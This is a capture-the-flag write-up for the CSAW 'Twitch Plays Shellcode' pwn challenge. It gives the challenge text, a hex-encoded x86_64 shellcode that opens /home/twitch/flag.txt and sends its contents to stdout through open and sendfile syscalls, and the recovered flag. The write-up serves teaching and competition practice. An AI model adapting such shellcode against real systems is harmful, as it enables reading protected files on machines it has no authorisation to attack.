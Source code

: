 # Twitch Plays Shellcode

- Category: PWN
- Points: 100

## Challenge

### Description
> Flag is in /home/twitch/flag.txt We'll jump into your shellcode and output 1024 bytes of stdout twitch.tv/csawtv

### Twitch.tv

On Twitch we have more instructions

> Flag is in /home/twitch/flag.txt
> After the number of rounds you vote for, we'll output the next 1024 bytes of stdout to the screen. This is x86_64 bit shellcode.

> ALL VOTES MUST BE NUMERIC
> VOTE FOR THE ROW, THE COLUMN, and then the VALUE on your page you want to change


## Solution

With all the information in mind first we need to come up with some shellcode to input. Thanks to zero_fiber for leading the charge in the chat. We used: 
> > 48 b8 01 01 01 01 01 01 01 01 50 48 b8 66 2f 75 79 75 01 01 01 48 31 04 24 eb 31 69 74 63 68 2f 66 6c 61 50 48 b8 2f 68 6f 6d 65 2f 74 77 50 6a 02 58 48 89 e7 31 f6 99 0f 05 41 ba ff ff ff ff 7f 48 89 c6 6a 28 58 6a 01 5f 99 0f 05 48 b8 69 74 63 68 2f 66 6c 61 eb cb 

Which translates to

> > Put /home/twitch/flag.txt On the stack

> > Open the File (syscall 2)

> > Send the File (syscall 40)

Then on the next execution we get the flag

![twitch](twitch.jpg)

### Flag

`flag{https://www.youtube.com/watch?v=pGFGD5pj03M}`

